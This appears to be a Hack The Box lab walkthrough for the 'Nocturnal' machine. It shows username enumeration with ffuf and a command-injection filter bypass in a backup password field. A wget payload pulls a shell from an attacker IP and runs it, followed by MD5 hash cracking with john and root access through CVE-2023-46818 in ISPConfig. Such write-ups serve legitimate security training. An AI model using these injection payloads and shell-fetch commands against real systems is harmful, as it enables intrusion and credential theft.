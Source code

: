 # Nocturnal HTB Walkthrough

* **Machine Type**: Linux
* **Solved by**: Akshat Nigam
* **Category**: Web Exploitation, Privilege Escalation
* **Difficulty**: Easy
* **Attack Surface**: Web Interface, Parameter Injection, Intranet Exposure

---

## Port Scan

```
nmap Nocturnal.htb -sV -v

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu
80/tcp open  http    nginx 1.18.0 (Ubuntu)
```

## Web Interface

* Register a user, log in.
* Upload a file (e.g., .xlsx). here i have uploaded dangerous.xlsx

* Note the download URL format:

 ```
http://nocturnal.htb/view.php?username=abc&file=dangerous.xlsx
```




## Enumerating Usernames

```
ffuf -w /usr/share/wrodlists/seclists/Usernames/Names/names.txt -u 'http://nocturnal.htb/view.php?username=FUZZ&file=dangerous.xlsx' \
-H 'Cookie: PHPSESSID=r9r2r5mvphpms3nnuk7gbl1i6n' -fs 2985

```

- Found valid users: `admin`, `amanda`, `tobias`
- Amanda's directory contained a file: `privacy.odt`
- File is a zip archive. Extract and find Amanda's password.

## Admin Panel Access
- Log in with Amanda's credentials.
- Create backup with password => Generates `.zip`
- Open BurpSuite capture the request, send it to the Repeater. 


* Filter can be bypassed using:

```
password=%0Abash%09-c%09"id"%0A&backup=
```

* Download remote shell using RFI:

```
password=%0Abash%09-c%09"wget%0910.xx.xx.xx/shell"%0A&backup=
password=%0Abash%09-c%09"bash%09shell"%0A&backup=
```
- Once you get into the shell, look for db file.
```
  nocturnal_database.db
```

- Get Tobias's hash from DB.

```
sqlite3 nocturnal_database.db
```

- Crack successfully to get Tobias's password.

```
john -w=/usr/share/wordlists/rockyou.txt hash.txt --format=Raw-Md5

```



## SSH into the system

```
ssh tobias@nocturnal 
```
---

## Privilege Escalation to Root

### Intranet Discovery

```
ss -tulnp
```

* Port 8080 open internally

```
ssh tobias@nocturnal.htb -L 8888:127.0.0.1:8080
```

* Found ISPConfig panel
* Inspect the HTML code of the website
* Likely version: `3.2`

### Exploit Used:

* CVE-2023-46818 - Code Injection in ISPConfig
* GitHub PoC: (https://github.com/ajdumanhug/CVE-2023-46818)

### Root Access

* Exploit or reuse credentials from Amanda/Tobias
* Success: Root shell acquired ✅

---

## Summary

* **User:** Exploited insecure parameter exposure to enumerate valid usernames. Dumped DB backup using Amanda's creds, cracked password hash to get Tobias.

* **Root:** Found local ISPConfig panel over port forwarding. Used public exploit (CVE-2023-46818) or password reuse to gain root access.

> Rooted `Nocturnal` 🌓
